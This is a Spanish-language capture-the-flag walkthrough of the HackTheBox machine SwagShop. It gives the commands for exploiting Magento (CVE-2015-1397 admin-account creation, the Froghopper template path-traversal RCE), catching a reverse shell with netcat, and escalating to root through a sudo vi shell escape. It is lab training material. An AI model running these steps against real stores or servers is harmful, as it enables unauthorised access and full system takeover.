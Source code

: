```yaml
---
title: HackTheBox - SwagShop
author: cotes
date: 2023-09-23 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Magento Exploitation (CVE-2015-1397)', 'Magento Froghopper (RCE)', 'Binary Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/SwagShop/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: SwagShop Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Magento Exploitation (CVE-2015-1397), Magento Froghopper (RCE), Binary Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/SwagShop/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/SwagShop/02-versions.png)

c. La web está creada con Magento

![](/assets/images/HTB/Easy/SwagShop/03-web.png)

* Si buscamos por un exploit para Magento encontramos [CVE-2015-1397](https://www.exploit-db.com/exploits/37977). Al ejecutarlo tendremos credenciales válidas para al panel de administración.

    ```bash
    ❯ python2 magento_exploit.py
    Check http://swagshop.htb/index.php/admin with creds forme:forme
    ```

d. Una vez en el panel de administrador tendremos 2 formas de ejecutar comandos

* La primera forma es con [Magento FrogHopper](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)

1. Primero habilitaremos la opción 'Allow Symlinks' en `System > Configuration > Developer > Template Settings > Allow Symlinks`

2. Creamos un fichero para entablarnos una reverse shell

    ![](/assets/images/HTB/Easy/SwagShop/04-payload.png)

3. Creamos una nueva categoría en `Catalog > Manage Categories` y aquí subiremos nuestro nuestro de payload. Copiaremos el link de esta imagen

    ![](/assets/images/HTB/Easy/SwagShop/05-url.png)

4. Ahora iremos a `Newsletter > Newsletter Templates` y crearemos un template con el siguiente contenido

    ```bash
    {{block type="core/template" template="../../../../../../[Link de la Image copiado]}}
    ```

5. Por último, nos ponemos en escucha con nc y damos click en **Preview Template**

    ![](/assets/images/HTB/Easy/SwagShop/06-final.png)

* Ya obtenemos una reverse shell

    ```bash
    ❯ nc -lvnp 443
    connect to [10.10.14.18] from (UNKNOWN) [10.10.10.140] 38338
    www-data@swagshop:/var/www/html$
    ```

* La segunda forma es con el script [Magento RCE < 1.9.0.1](https://gist.github.com/Mah1ndra/b15db547dfff13696ddd4236dd238e45)

1. Para esto vamos al directorio **/app** y copiar la fecha de instalación de magento

    ![](/assets/images/HTB/Easy/SwagShop/07-date.png)

2. Modificamos el script

    ```python
    username = 'forme'                                                                                                             
    password = 'forme'                                                                     
    install_date = 'Wed, 08 May 2019 07:23:09 +0000'
    ```

3. Nos entablamos una reverse shell

    ![](/assets/images/HTB/Easy/SwagShop/08-reverse.png)

### Escalada de Privilegios 💹

a. Listamos los permisos a nivel de sudoers del usuario www-data

```bash
www-data@swagshop:/var/www/html$ sudo -l

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

* Spawneamos una consola como root

    ```bash
    www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/index.php -c ':!/bin/sh'
    # whoami 
    root
    ```